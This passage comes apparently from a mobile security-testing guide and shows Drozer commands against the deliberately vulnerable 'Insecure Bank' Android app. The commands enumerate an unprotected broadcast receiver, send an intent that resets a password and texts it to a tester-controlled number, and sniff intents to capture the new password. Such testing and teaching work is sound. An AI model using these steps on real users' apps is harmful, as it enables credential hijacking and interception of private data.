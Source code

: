 #### Broadcast Receivers

Broadcasts can be enumerated via the Drozer module `app.broadcast.info`. The
target package should be specified via the `-a` parameter:

```bash
dz> run app.broadcast.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  com.android.insecurebankv2.MyBroadCastReceiver
    Permission: null
```

In the example app "Android Insecure Bank", one broadcast receiver is exported
without requiring any permissions, indicating that we can formulate an intent to
trigger the broadcast receiver. When testing broadcast receivers, you must also
use static analysis to understand the functionality of the broadcast receiver,
as we did before.

With the Drozer module `app.broadcast.send`, we can formulate an intent to
trigger the broadcast and send the password to a phone number within our
control:

```bash
dz>  run app.broadcast.send --action theBroadcast --extra string phonenumber 07123456789 --extra string newpass 12345
```

This generates the following SMS:

```bash
Updated Password from: SecretPassword@ to: 12345
```

##### Sniffing Intents

If an Android application broadcasts intents without setting a required
permission or specifying the destination package, the intents can be monitored
by any application that runs on the device.

To register a broadcast receiver to sniff intents, use the Drozer module
`app.broadcast.sniff` and specify the action to monitor with the `--action`
parameter:

```bash
dz> run app.broadcast.sniff  --action theBroadcast
[*] Broadcast receiver registered to sniff matching intents
[*] Output is updated once a second. Press Control+C to exit.

Action: theBroadcast
Raw: Intent { act=theBroadcast flg=0x10 (has extras) }
Extra: phonenumber=07123456789 (java.lang.String)
Extra: newpass=12345 (java.lang.String)`
```

## Testing JavaScript Execution in WebViews (MSTG-PLATFORM-5)
